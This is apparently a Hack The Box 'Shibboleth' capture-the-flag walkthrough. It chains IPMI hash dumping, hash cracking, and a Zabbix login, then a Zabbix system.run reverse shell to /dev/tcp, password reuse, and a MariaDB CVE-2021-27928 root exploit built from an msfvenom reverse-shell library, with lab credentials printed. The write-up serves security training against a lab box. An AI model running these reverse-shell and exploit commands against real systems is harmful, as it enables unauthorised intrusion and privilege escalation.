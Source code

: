 # HTB - Shibboleth Walkthrough 🥷

> _“Don’t half-ass it. When you stop midway, you lose your momentum and make dumb mistakes.”_



### 🔍 Initial Recon

#### 🔎 TCP Scan

Only one port stood tall:

```
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

So it’s likely a web-based entry point — either a web shell, RCE, or hopefully SSH later on (I like having a stable shell, sue me).

🔎 UDP Scan

```
623/udp open  asf-rmcp
```

Yup. That’s IPMI. A classic hole in many networks. Tucking that away for later…

### 🌐 Subdomain Discovery

```
ffuf -u http://shibboleth.htb -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18
```

Found:

```
monitor
monitoring
zabbix
```

All routed to the same interface/site. Interesting. Burp showed some app behavior, but nothing juicy yet.

### 🔁 Circle Back to UDP (623/IPMI)

Ref: [HackTricks on IPMI](https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

Used Metasploit to pull potential hashes:

```
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.10.11.124
run
```

💥 Got a juicy hash:

```
Administrator:914fade8820100000830a3be05dcbec9310a8c18dfb7589f1e3de87662a5ca64ee24ff833aa0e9a1a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:bda78a132c0e95bc35fd085fbb136ac6dc62c762
```

Saved it and cracked it:

```
echo "<hash>" > hash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

### 🔐 Zabbix Login

Tried creds on Zabbix from subdomain — and it worked.



***

### 🖥️ Reverse Shell via Zabbix

To execute a reverse shell, used Zabbix's `system.run[]` item:

```
echo "bash -i >& /dev/tcp/10.10.16.8/4444 0>&1" | base64
```

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

⚠️ _Without `nowait`, the session died in \~4 seconds. Annoying little gotcha._

Made the shell stable with:

```
script /dev/null -c bash
```

### 🔄 Priv Esc - Switching Users

Poked around. Found a second user: `ipmi-svc`. Tried the same password. It worked.

```
su ipmi-svc
# Password: ilovepumkinpie1

```

### 🧪 Enumeration & Dead Ends

* Checked `/etc/zabbix/zabbix_server.conf` for DB creds.
* Looked at sudo perms.
* Dug through config files.
* Nada. No root path in sight.\
  &#xNAN;_(Paused here because guests showed up. Came back later.)_



### 🤯 Moment of Clarity: MariaDB Version Exploit (CVE-2021-27928)

Should’ve thought of this sooner. It’s literally part of what I do at work — check SBOMs and versions.

Saw MySQL version was **10.3.25** → vulnerable.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4445 -f elf-so -o rev.so    
```

```
nc -lvnp 4445
```



```
curl http://10.10.16.8/rev.so --output rev.so
```



```
mysql -u zabbix -pbloooarskybluh
```

Then triggered:

```
SET GLOBAL wsrep_provider="/home/ipmi-svc/rev.so";
```

* and you get a shell as root

🔥 **ROOT SHELL DROPPED.**

### 🧠 Lessons Learned

* Don’t half-ass walkthroughs — finish what you start. Pausing mid-box kills flow and costs you time.
* IPMI still sucks.
* Zabbix + misconfigs = pwnage.





